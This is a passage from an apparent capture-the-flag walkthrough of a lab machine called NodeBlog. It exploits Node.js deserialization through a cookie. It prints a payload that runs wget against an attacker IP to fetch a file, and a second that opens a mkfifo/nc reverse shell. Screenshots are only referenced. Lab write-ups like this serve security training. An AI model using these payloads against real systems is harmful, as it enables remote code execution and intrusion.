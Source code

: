 For Verification I tried to upload my `php_reverse_shell.php` file here on system lets see we get the response or not →

```bash
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('wget http:/10.10.14.213:8000/shell.php', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%207.png)

Lets see the response for this upload through python3 http server →

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%208.png)

So this verify me that the payload is working here so lets use this payload for reverse shell →

```bash
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> <local-port> >/tmp/f', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```
{: .nolineno}
{: .nolineno}

Lets access the home page and add this payload in cookies along with auth values →

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%209.png)
